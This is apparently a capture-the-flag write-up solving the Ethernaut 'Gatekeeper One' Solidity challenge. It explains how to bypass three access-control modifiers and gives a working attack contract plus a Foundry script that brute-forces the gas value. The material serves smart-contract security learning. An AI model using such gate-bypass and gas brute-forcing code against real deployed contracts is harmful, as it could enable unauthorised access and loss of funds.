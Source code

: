 # Gatekeeper one   
The objective of this challenge is to get registered as an entrant to pass this level.   
The only `public` function is the `enter` function, but this function has three modifiers: `gateOne`, `gateTwo` and `gateThree`.   
   
The first modifier requires us to call the `enter` function from a smart contract.   
```solidity
modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }
```
The second modifier is more complex, it requires that the remaining gas  `gasleft()` when the modifier is executed is a multiple of 8191:   
```solidity
modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }
```
So, we have to send a specific amount of gas that is exactly divisible by 8191, remember that the minimum required is 21,000[ https://ethereum.org/en/developers/docs/gas/#what-is-gas-limi](https://ethereum.org/en/developers/docs/gas/#what-is-gas-limit)t.
   
And finally for the third modifier we have to set the key.   
```solidity
modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }
```
Ok, let's begin with the last require:   
1. The **last 4 bytes** of the `\_gateKey` must be of the form `0x0000XXXX`, where `XXXX` are the last 2 bytes of the sender's address ( `tx.origin`).   
   
2. The **first 4 bytes** of the `\_gateKey` must not be `0x00000000`.   
3. The **last 4 bytes** of the `\_gateKey` must equal its **last 2 bytes**, ensuring the form `0x0000XXXX`   
Basically it has to be like this:   
```solidity
                      8 bytes(64 bits)
	 ┌────────────────────┴─────────────────────┐	 
             4bytes(32 bits)  |    4bytes(32 bits)
         ┌──────────┴─────────┐──────────╋──────────┐
         │     not 0x0000     │  0x0000  │ tx.origin│
         └────────────────────┘──────────┴──────────┘

```
I made one contract and one script for automating the exploitation:   
```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.20;

interface IGateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Solving {
    function attack(address _victim, uint256 _gas) public {
        bytes8 gateKey = bytes8(uint64(1) << 32 | uint16(uint160(tx.origin)));
        require(IGateKeeperOne(_victim).enter{gas: (8191*3)+_gas}(gateKey));
    }
}
```

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.20;

import {Script, console2} from "forge-std/Script.sol";
import {Solving} from "src/Solving.sol";

contract SolvingScript is Script {
    address victim =; /* Your instance address */
    Solving solving;

    function run() public {
        vm.startBroadcast();
        solving = new Solving();
        solve();
        vm.stopBroadcast();
    }

    function solve() public {
        /* for (uint256 i = 0; i < 500; i++) { // Use this loop to find the correct gas value
            try solving.attack(victim, i) {
                console2.log("Solved", i);
                return;
            } catch { }
    }*/
        solving.attack(victim, 256); // In my case this was the correct value
    }
}
```
